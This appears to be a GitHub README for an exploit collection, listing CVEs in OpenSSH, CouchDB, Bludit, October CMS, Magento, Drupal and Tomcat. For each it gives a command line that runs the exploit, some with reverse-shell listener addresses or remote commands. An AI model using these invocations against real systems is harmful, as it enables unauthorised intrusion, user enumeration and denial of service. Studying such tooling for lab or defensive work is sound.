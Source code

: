 # vulnexipy

**Vulnerabilities exploitation examples**

## Examples

1. clone the repository

```bash
git clone https://github.com/cocomelonc/vulnexipy
```

2. go to the dir:
```bash
cd vulnexipy
```

3. run python exploit, for example:
```bash
python3 cve_2009_3548.py -u http://172.16.64.101:8080/ -U tomcat -P s3cret -i 172.16.64.10 -p 4444
```

CVE-2016-6210 - sshd in OpenSSH before 7.3, when SHA256 or SHA512 are used for user password hashing, uses BLOWFISH hashing on a static password when the username does not exist, which allows remote attackers to enumerate users by leveraging the timing difference between responses when a large password is provided.

```bash
python cve_2016_6210.py --target 10.10.6.17 --usernames users.txt
```
CVE-2016-6515 - The auth_password function in auth-passwd.c in sshd in OpenSSH before 7.3 does not limit password lengths for password authentication, which allows remote attackers to cause a denial of service (crypt CPU consumption) via a long string. 

```bash
python cve_2016_6515.py --target 10.10.6.13 --username root
```

CVE-2017-12635 - Apache CouchDB before 1.7.0 and 2.x before 2.1.1 to submit '_users' documents with duplicate keys for 'roles' used for access control within the database, including the special case '_admin' role, that denotes administrative users.
```bash
python cve_2017_12635 --target 10.10.6.14 -u couchdb -p mysuperpswd
```

CVE-2019-16113 - Bludit 3.9.2 allows remote code execution via bl-kernel/ajax/upload-images.php because PHP code can be entered with a .jpg file name, and then this PHP code can write other PHP code to a ../ pathname.

```bash
python cve_2019_16113.py --url 10.10.6.15 --username admin --password admin --cmd whoami
```

CVE-2017-1000119 - October CMS build 412 is vulnerable to PHP code execution in the file upload functionality resulting in site compromise and possibly other applications on the server.

```bash
python cve_2017_1000119.py --url http://10.10.6.16 -user admin -pswd admin -lhost 10.10.14.16 -lport 4444
```

Magento Community Edition < 1.9.0.1 - Authenticated Remote Code Execution
```bash
python magento_auth_rce.py --url http://10.10.10.112 --user admin --pswd admin
```

CVE-2018-7600 - Drupal before 7.58, 8.x before 8.3.9, 8.4.x before 8.4.6, and 8.5.x before 8.5.1 allows remote attackers to execute arbitrary code because of an issue affecting multiple subsystems with default or common module configurations.
```bash
python cve_2018_7600.py --url http://10.10.10.151 --cmd whoami
```

**This tool is a Proof of Concept and is for Educational Purposes Only!!!**
**Author takes no responsibility of any damage you cause**

